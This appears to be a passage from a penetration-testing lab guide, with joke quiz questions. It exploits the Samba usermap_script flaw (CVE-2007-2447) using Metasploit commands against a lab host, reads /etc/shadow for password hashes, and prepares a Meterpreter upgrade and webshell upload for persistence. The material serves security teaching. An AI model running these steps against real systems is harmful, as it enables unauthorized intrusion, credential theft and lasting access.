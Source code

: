 **Quiz: Which software powers the web server backend on port 80?**

1. **Thousands of nanochip-controlled miniature chameleons**
2. **Python-Flask**
3. **Node.js**
4. **PHP**
<div style="page-break-after: always;"></div>

## Metasploit Framework

Since we saw in SPARTA that the victim machine is running Samba version 3.0.\*, we know that it is likely vulnerable to CVE-2007-2447, which allows remote code execution. The Common Vulnerabilities and Exposures (CVE) system tracks known vulnerabilities in a way that allows analysts and researchers to easily reference them. CVEs are issued by MITRE, CERT, and software vendors. Let's use Metasploit to run this attack.

Run `msfconsole` and enter the following commands:

- Find Metasploit exploits for this CVE:
`search cve:2007-2447`
- Use the exploit you found:
`use exploit/multi/samba/usermap_script`
- Set the necessary options. In this case we need to set the Remote Host to our victim's machine:
`set rhost 10.0.0.13`
- Run the exploit:
`exploit`

![img](https://lh3.googleusercontent.com/h_VAN19i_mzdkkBVZQufJ3ZxoNr_KbhR9s9ngCWRqRPLVtoKikA_RbIWcIPlsZC6gwK81FRYuRYM4CKZ5iMToUGA4asO6uYgHmlxGNfgP4aWgddWjYXNPVH93ko1Z-9bsVF6N5Jv)

**Be sure to note the Command Shell Session number; you will need that later.**

If you see an error, you may need to re-run the exploit. Confirm that the exploit worked by running `ifconfig` and checking the IP address.

Run `whoami`.

Quiz: Which user was the service running under on the remote machine?

1. root
2. god
3. samba
4. the\_one\_who\_stole\_your\_sandwich\_im\_sorry\_but\_i\_lack\_the\_courage\_to\_tell\_you\_that\_in\_person

On UNIX systems, the shadow file contains a list of user accounts on the machine and a hash of each account’s password. Output the contents of the shadow file with the following command: `cat /etc/shadow`. This file contains hashes that can be used to crack the passwords of local users. Actually doing this is beyond the scope of this lab.

Next, run `uname -v` to learn what operating system the machine is running.

Since we now know the operating system, web server type, and back-end software, we have a pretty good idea of how and where we could upload our own web page.

We will now upgrade our shell to a Meterpreter session. This will make it easier to perform post-exploitation activities, such as upload a webshell to ensure future access to the system.
